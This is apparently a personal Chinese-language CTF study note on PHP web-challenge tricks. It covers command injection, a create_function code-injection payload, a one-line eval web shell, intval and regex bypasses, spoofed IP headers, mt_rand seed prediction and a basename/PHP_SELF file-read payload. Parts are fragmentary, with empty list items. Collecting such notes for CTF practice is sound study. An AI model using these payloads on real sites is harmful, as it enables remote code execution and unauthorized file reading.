 [TOC]



##### sort /f*可以代替cat /f*

;竟然可以在执行语句中结束前面的语句

$command="echo hello,".$cm;

例,........($command)

$cm=;tac f* 

........是函数，忘了。  就可以直接执行tac f*

##### 如果变量名是file,可能是php伪协议。

又，当日志注入不行的时候，可以试试php伪协议。

[日志注入漏洞 - NPFS - 博客园 (cnblogs.com)](https://www.cnblogs.com/NPFS/p/13235425.html)

#### create_function

新的执行函数。

```
  $a = $this->param1;
        $b = $this->param2;
           $a('', $b);
```

将 $param1 设置为 create_function ，$param2 设置为 system($_GET[1])，

```
 protected $param1 = "create_function";
    protected $param2 = "};system(\$_POST[1]);//";
```

就可以了。

##### `$_SERVER['HTTP_O2TAKUXX']=="GiveMeFlag")`

在标头中传入   

O2TAKUXX：GiveMeFlag

$_SERVER['HTTP_O2TAKUXX']是在标头中获得一个叫O2TAKUXX的值

##### intval

1. intval(num,进制)

2. 

    

3. 

   这里主要 可以通过进制的方式绕过 因为默认是10进制

4. 

    

5. 

   这里主要是通过 科学计数法绕过

6. 

    

7. 

    

8. 

   1e10 会被识别为1

9. 

    

10. 

    但是 1e10+1后就会恢复原本

```
<?php
$a='1e10';
echo intval($a);
echo "<br />";
echo intval($a+1);
```

遇到非数字的直接停止转换，比如（‘1000’），（‘’125*8）,~~1000,?id=0x3E8,?id=125<<3,?id=999%2B1这些都小于999

[基于intval()函数特性的漏洞绕过_intval函数绕过-CSDN博客](https://blog.csdn.net/m0_73512445/article/details/132356059?ops_request_misc=&request_id=&biz_id=102&utm_term=intval函数的绕过方式&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-3-132356059.142^v99^pc_search_result_base1&spm=1018.2226.3001.4187)

##### shal()

传数组

#### “<?php ?“>”绕过

```
<script language='php'>@eval($_POST["a"]);</script>
```

###### 是随机数

[[UUCTF 2022 新生赛\]phonecode | NSSCTF](https://www.nssctf.cn/problem/3052)

两个函数：

```
<?php

$cc = 2;
mt_srand($cc);
echo mt_rand().'<br>';
echo mt_rand().'<br>';
echo mt_rand();
?>
```

###### vim泄露

![1704189116104](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1704189116104.png)

用这个命令

###### Content-Type有两个值：

①application/x-www-form-urlencoded(默认值) ：上传键值对
②multipart/form-data：上传文件



###### [$_SERVER[‘QUERY_STRING’\]特性](https://c1oudfl0w0.github.io/blog/2023/03/15/PHP特性/#SERVER-'QUERY-STRING')，只能匹配没有url编码过的数据

[$_REQUEST特性](https://c1oudfl0w0.github.io/blog/2023/03/15/PHP特性/#REQUEST)，传post参数绕过即可



###### php解析特性/////很重套



空格、+ - [ .  都可以换成_,我们这里用空格代替

###### 修改IP

CLIENT-IP: 
X-FORWARDED-FOR: 
X-REAL-IP:

###### basename与$_SERVER['PHP_SELF']

```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

已知flag在config.php中。

$_SERVE[‘PHP_SELF’]读取的是当前执行脚本的路径（包含文件名），http://example.com/foo/bar.php的脚本中使用$_SERVER['PHP_SELF']将得到/foo/bar.php

basename则可以返回路径中的文件名部分

如果传入/index.php/config.php/，则$_SERVER['PHP_SELF']返回/index.php/config.php/，

basename($_SERVER['PHP_SELF'])返回config.php
即/index.php/config.php/运行的是index.php,但是basename()获取到的是config.php

即basename()匹配的是尾部。

但是上面有一个正则。我们使用%0d 之类的来污染绕过 (basename()函数存在一个问题，它会去掉文件名开头的非ASCII值)

payload:/index.php/config.php/%ff?source
加上%ff将正则过掉。basename会自动去掉%ff,直接返回config.php.得到flag
```

#### php的变量解析绕过, php会把请求参数中的非法字符转为下划线